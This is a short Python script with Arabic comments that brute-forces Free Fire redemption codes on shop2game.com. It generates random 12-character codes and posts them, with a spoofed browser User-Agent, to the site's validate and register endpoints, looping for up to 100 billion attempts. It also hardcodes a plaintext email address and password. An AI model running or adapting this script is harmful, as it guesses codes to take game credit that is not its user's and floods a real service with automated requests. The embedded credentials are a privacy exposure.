 import requests
import time
import random
import string
import logging

# تسجيل الأخطاء
logging.basicConfig(filename='script.log', level=logging.INFO, format='%(asctime)s - %(message)s')

# Function to generate a random Free Fire code
def generate_free_fire_code():
    code_length = 12
    characters = string.ascii_uppercase + string.digits
    return ''.join(random.choice(characters) for _ in range(code_length))

# Function to register on the website
def register_on_website(email, password, code):
    url = "https://shop2game.com/register"  # استبدل بعنوان URL الصحيح للتسجيل إذا كان مختلفًا
    payload = {
        "email": email,
        "password": password,
        "code": code
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
    }
    try:
        response = requests.post(url, data=payload, headers=headers)
        response.raise_for_status()  # يرفع استثناء إذا كانت حالة الاستجابة غير ناجحة
        logging.info(f"Registration successful for {email} with code {code}")
    except requests.exceptions.RequestException as e:
        logging.error(f"Registration failed for {email} with code {code}: {e}")

# Function to test a specific code on the website
def test_code_on_website(code):
    url = "https://shop2game.com/validate_code"  # استبدل بعنوان URL الصحيح للتحقق من الكود إذا كان مختلفًا
    payload = {
        "code": code
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
    }
    try:
        response = requests.post(url, data=payload, headers=headers)
        response.raise_for_status()
        logging.info(f"Code {code} is valid")
    except requests.exceptions.RequestException as e:
        logging.error(f"Code {code} is invalid: {e}")

# Main function to execute the script
def main():
    email = "atigibrahim040@gmail.com"
    password = "Lhosayn2079"
    max_attempts = 100000000000  # الحد الأقصى لعدد المحاولات
    delay = 1  # التأخير بين المحاولات (بالثواني)

    for attempt in range(max_attempts):
        code = generate_free_fire_code()
        logging.info(f"Attempt {attempt + 1}: Testing code {code}")
        test_code_on_website(code)
        register_on_website(email, password, code)
        time.sleep(delay)  # تأخير بين المحاولات

if __name__ == "__main__":
    main()
